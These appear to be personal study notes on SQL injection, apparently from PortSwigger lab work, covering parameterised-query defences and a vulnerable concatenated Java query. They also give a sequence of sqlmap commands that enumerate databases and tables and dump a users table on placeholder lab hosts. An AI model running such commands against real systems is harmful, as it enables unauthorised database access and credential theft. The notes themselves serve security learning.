 # Preventing SQLi
- use parameterised queries instead of string concatenation: 
- the following is a vulnerable query: 
	```
	String query = "SELECT * FROM products WHERE category = '"+ input + "'";
	Statement statement = connection.createStatement();
	ResultSet resultSet = statement.executeQuery(query);
	```
- this is a prevention method: 
	```
	PreparedStatement statement = connection.prepareStatement("SELECT * FROM products WHERE category = ?");
	statement.setString(1, input);
	ResultSet resultSet = statement.executeQuery();
	```
- Parameterized queries are effective for handling untrusted input in the WHERE clause and values in INSERT or UPDATE statements.
- They are not suitable for protecting against untrusted input in other parts of the query, such as table or column names, or the ORDER BY clause.
- Alternative approaches for protecting against SQL injection in these cases include whitelisting permitted input values or using different logic to achieve the required behavior.
- To ensure the effectiveness of parameterized queries, the string used in the query must always be a hard-coded constant and never contain variable data from any source.
- Avoid deciding case-by-case whether data is trusted and using string concatenation within the query for supposedly safe cases, as it's prone to errors and can lead to security vulnerabilities.
# SQL Map
```bash 
(1)
python sqlmap.py -u "https://<CHANGE_HERE>.web-security-academy.net/advancedsearch?find=test&organize_by=*&writer=" --cookie="_lab=<CHANGE_HERE>;session=<CHANGE_HERE>" --batch

(2) - Get Databases
python sqlmap.py -u "https://<CHANGE_HERE>.web-security-academy.net/advancedsearch?find=test&organize_by=*&writer=" --cookie="_lab=<CHANGE_HERE>;session=<CHANGE_HERE>" --dbs --batch

(3) - Get Tables
python sqlmap.py -u "https://<CHANGE_HERE>.web-security-academy.net/advancedsearch?find=test&organize_by=*&writer=" --cookie="_lab=<CHANGE_HERE>;session=<CHANGE_HERE>" -D public --tables --batch

(4) - Dump Specific Table
python sqlmap.py -u "https://<CHANGE_HERE>.web-security-academy.net/advancedsearch?find=test&organize_by=*&writer=" --cookie="_lab=<CHANGE_HERE>;session=<CHANGE_HERE>" -D public -T users --dump --batch
```
- use `*` to denote which parameter to inject in
- batch is to not ask for user input
## OOB With SQLMap
- SQLMap DNS Collaborator : https://portswigger.net/bappstore/e616dc27bf7a4c6598cfeeb70d5ca81c